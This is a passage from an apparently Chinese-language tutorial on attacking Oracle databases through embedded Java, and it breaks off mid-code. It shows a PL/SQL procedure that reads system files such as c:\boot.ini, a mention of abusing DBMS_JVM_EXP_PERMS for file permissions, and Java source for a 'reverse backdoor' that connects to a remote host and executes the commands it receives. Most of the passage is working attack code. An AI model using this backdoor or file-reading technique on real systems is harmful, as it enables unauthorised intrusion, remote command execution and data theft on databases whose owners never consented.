 ```
}  
fr.close();  
}  
}

create or replace procedure jreadfile (filename in varchar)  
as language java  
name 'javareadfile.readfile(java.lang.String)';

exec jreadfile('c:\boot.ini'); 
```

我们还是可以利用之前的那个 DBMS_JVM_EXP_PERMS 获取 java.io.FilePermission，可以简单读取文件

**0x5 访问网络**

在 PL/SQL 中我们可以利用 oracle 自带的那几个包(utl_tcp,utl_http…etc)来访问网络，自我感觉不怎么好用，比较喜欢用 java， 下面我们来实现一个简易的 java 版本反向后门

```
create or replace and compile java source named javasocket as  
import java.net.*;  
import java.io.*;  
import java.lang.*;

public class javasocket  
{  
public static void test(String addr,String str_port)  
{  
Socket socket;  
String len;  
String s;  
InputStream Is;  
OutputStream Os;  
DataInputStream DIS;  
PrintStream PS;

        try{ 
            socket=new Socket(addr,Integer.parseInt(str_port)); 
            Is=socket.getInputStream(); 
            Os=socket.getOutputStream(); 
            DIS=new DataInputStream(Is); 
            PS=new PrintStream(Os); 

            while(true){ 
                s=DIS.readLine();
                if(s.trim().equals("BYE"))break;

                try{
                    Runtime rt = Runtime.getRuntime();
                    Process p = null;
                    p = rt.exec(s);
                    s = null;
                    BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));
                    String msg = null;
                    while((msg = br.readLine())!=null){
                            msg += "\n";
                            s += msg;
                    }
                    br.close();
                 }
                catch(Exception e)
                { 
                    s = "Please check your command!";
```